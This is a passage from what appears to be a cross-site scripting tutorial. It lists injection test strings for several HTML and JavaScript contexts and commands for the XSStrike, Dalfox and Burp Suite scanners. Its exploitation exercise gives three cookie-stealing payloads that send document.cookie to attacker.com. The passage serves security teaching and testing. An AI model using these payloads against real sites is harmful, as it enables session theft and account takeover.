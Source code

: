 ## Part 2: Identifying XSS Vulnerabilities

### Exercise 2.1: Manual Testing
Common injection points:
```html
<!-- URL parameters -->
http://example.com/search?q=<script>alert('XSS')</script>

<!-- Form inputs -->
<input type="text" value="<script>alert('XSS')</script>">

<!-- Hidden fields -->
<input type="hidden" value=""><script>alert('XSS')</script>">

<!-- Attributes -->
<div title=""><script>alert('XSS')</script>"></div>

<!-- JavaScript context -->
<script>var user = ""; alert('XSS'); //";</script>
```

### Exercise 2.2: Automated Scanning
Using tools for XSS detection:
```bash
# XSStrike
python xsstrike.py -u "http://example.com/search?q=test"

# Dalfox
dalfox url http://example.com/search?q=test

# Using Burp Suite
# 1. Intercept request
# 2. Send to Intruder
# 3. Use XSS payload list
# 4. Analyze responses
```

## Part 3: XSS Exploitation Techniques

### Exercise 3.1: Cookie Stealing
```javascript
// Basic cookie stealer
<script>
document.location='http://attacker.com/steal.php?cookie='+document.cookie
</script>

// Using image tag
<img src=x onerror="this.src='http://attacker.com/steal.php?cookie='+document.cookie">

// XMLHttpRequest
<script>
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://attacker.com/steal.php?cookie=' + document.cookie);
xhr.send();
</script>
```
